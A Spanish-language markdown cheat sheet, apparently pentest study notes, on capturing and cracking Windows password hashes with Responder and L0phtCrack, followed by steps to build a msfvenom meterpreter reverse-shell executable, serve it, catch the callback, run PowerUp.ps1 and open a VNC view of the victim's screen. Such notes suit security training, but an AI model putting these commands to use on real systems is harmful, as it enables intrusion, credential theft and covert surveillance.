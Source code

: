 # Active Attack to Crack the System's Password

Tags: #Hacking #SystemHacking #Responder #L0phtCrack #Exploit-DB 

## Exploit-DB

* [Exploit-DB](https://www.exploit-db.com/)

## Responder 

```bash 
❯ /home/Responder/logs       # Ruta en donde se almacenan los logs para ver los hashes de los usuarios 
```

```bash 
# Kali Tool 
❯ ./Responder.py -I eth0     # Es un servicio que se encuentra a la escucha de los diferentes protocolos como LLMR, NBT-NS, SMB, HTTP-Server, etc... esperando a que el usuario cometa un error buscando un recurso en la red que no existe. Esto con el fin de capturar los 'Hashes' de los usuarios para poder crackearlos offlinecon 'John The Ripper o Hashcat'
```

## L0phtCrack 

L0phtCrack es una **herramienta de auditoría y recuperación de contraseñas** (ahora llamada LC5), originalmente producida por Mudge de L0pht Heavy Industries. Es usada para verificar la debilidad de las contraseñas y algunas veces para recuperar las que se han olvidado o perdido en sistemas Microsoft Windows.

```bash 
# Windows Tool 
❯ L0phtCrack 7      # Ejecutar el programa 

Nota:
	1. Seleccionar 'Password Auditing Wizard'
	2. Seleccionar 'Windows Import From Remote Machine (SMB)', colocar las credenciales y el dominio valido en 'Use Specific User Credentials'
	3. Seleccionar 'Thorough Password Audit' 
	4. Marcar 'Generate Report at End of Auditing' en formato CSV y seleccionar la ubicación de descarga
	5. Al momento de dar click en 'Finish', el programa empezará a ejecutarse 
```

## Client-Side VNC Session 

```bash 
# Kali Tool 
❯ msfvenom -p windows/meterpreter/reverse_tcp --plataform windows -a x86 -f exe LHOST=IP LPORT=443 -o test.exe       # Crear un archivo malicioso 

❯ python3 -m http.server 80        # Crear un servidor para compartir el archivo 

❯ msfconsole -q 
	❯ use exploit/multi/handler   
	❯ options 
	❯ set LPORT 443
	❯ set LHOST IP
	❯ set payload windows/meterpreter/reverse_tcp
	❯ run 

❯ upload /home/PowerUP.ps1   # Cargar un archivo desde la maquna Kali en la sesión establecida con Meterpreter 
❯ shell                      # Crear una sesión Windows en Meterpreter 
	❯ powershell -ExecutionPolicy Bypass -Command . .\PowerUp.ps1;Invoke-AllChecks  # Ejecutar el archivo 'PowerUp.ps1'
	❯ exit 

❯ run vnc     # Crear un sesión de VNC en Meterpreter y sirve para visualizar lo que pasa en la maquina victima 
```